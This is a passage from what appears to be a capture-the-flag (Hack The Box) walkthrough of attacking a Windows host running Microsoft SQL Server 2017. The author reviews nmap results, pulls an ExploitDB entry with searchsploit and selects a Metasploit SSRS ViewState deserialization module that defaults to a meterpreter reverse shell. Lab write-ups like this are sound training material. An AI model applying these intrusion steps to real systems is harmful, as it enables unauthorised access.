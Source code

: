 ```

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.36 seconds
```

This is a good start.  As usual, we look for a web domain to gain a foothold.  There is a lot of information here, but we see an RPC server on port `135`, a `netbios-ssn` on port `139`, a `microsoft-ds` on port `445`, and an SQL server on port `1433`.  However, seeing that there is an SQL server, let's try to get some SQL tools ready.  I see we can install them [via these instructions](https://docs.microsoft.com/en-us/sql/linux/sql-server-linux-setup-tools?view=sql-server-ver15#ubuntu).  However, this installation is specifically for Ubuntu so it failed.

However, I did find [this](https://resources.infosecinstitute.com/topic/attacking-ms-sql-server-gain-system-access/) on the web, and keeping in mind my initial thoughts on HTB, this looks very convenient!

From the link, we see that ExploitDB has some things.  So, there are a lot of exploits, it seems.  We need to choose one...  We know that the `mssql` server version this machine is using is from 2017.

Let's quickly have a look at the [CLI for `mssql`](https://opensource.com/article/18/1/ms-sql-command-line-client) before we have a go at the metasploit results.  We need to first run:
```bash
$ pip install mssql-cli
$ echo 'PATH=$PATH:$HOME/.local/bin/' >> ~/.zshrc
$ source ~/.zshrc
```

However, this CLI keeps erroring regarding dependencies, so no good.  Let's have another look at those metasploit results.  

I run
```
searchsploit -m 23649
```

At this point, I realise I have very little knowledge of how to use metasploit, so I found [this video](https://www.youtube.com/watch?v=8lR27r8Y_ik) which helped me understand.  So entering the `msfconsole` and we search for exploits:
```
msf6 > search type:exploit platform:windows microsoft sql
```

Recall that we are dealing with Microsoft SQL Server 2017, and only one of these has an Disclosure Date of later than that, so we choose that one:
```
msf6 > use exploit/windows/http/ssrs_navcorrector_viewstate
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/ssrs_navcorrector_viewstate) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows (x86)
   1   Windows (x64)
   2   Windows (cmd)


msf6 exploit(windows/http/ssrs_navcorrector_viewstate) > show info

       Name: SQL Server Reporting Services (SSRS) ViewState Deserialization
     Module: exploit/windows/http/ssrs_navcorrector_viewstate
   Platform: Windows
       Arch:
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
```
